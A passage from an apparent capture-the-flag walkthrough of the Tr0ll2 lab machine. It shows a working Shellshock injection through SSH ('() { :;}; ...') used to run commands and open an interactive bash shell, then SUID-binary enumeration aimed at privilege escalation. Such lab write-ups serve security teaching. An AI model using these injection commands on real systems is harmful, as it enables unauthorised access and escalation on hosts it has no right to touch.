 As is an old version of SSH is possible that this ubuntu version to be vulnerable to shellshock.

```console
root@kali:~$ ssh -i noob -l noob 192.168.179.183 '() { :;}; echo hello;id'
hello
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```

As we saw earlier, it is vulnerable to shellshock and we can bypass the system restriction and execute commands.

```console
root@kali:~$ ssh -i noob -l noob 192.168.179.183 '() { :;}; echo hello;bash -i'
hello
bash: no job control in this shell
noob@Tr0ll2:~$
```

Listing the SUID binaries three suspect files were found.

```console
noob@Tr0ll2:~$ find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null
...
-rwsr-xr-x 1 root root 7271 Oct  4  2014 /nothing_to_see_here/choose_wisely/door2/r00t
-rwsr-xr-x 1 root root 7273 Oct  5  2014 /nothing_to_see_here/choose_wisely/door3/r00t
-rwsr-xr-x 1 root root 8401 Oct  5  2014 /nothing_to_see_here/choose_wisely/door1/r00t
```

We see three files, perhaps a means of privilege escalation via buffer overflow.

```console
noob@Tr0ll2:~$ ls -la /nothing_to_see_here/choose_wisely/*         
ls -la /nothing_to_see_here/choose_wisely/*
/nothing_to_see_here/choose_wisely/door1:
total 16
drwsr-xr-x 2 root root 4096 Oct  4  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

/nothing_to_see_here/choose_wisely/door2:
total 20
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t

/nothing_to_see_here/choose_wisely/door3:
total 16
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t
```

We copy the binary of the door2 to the current working directory to analyze it, since the binaries every certain period of time change their gate.

```console
noob@Tr0ll2:~$ cp /nothing_to_see_here/choose_wisely/door2/r00t .
```
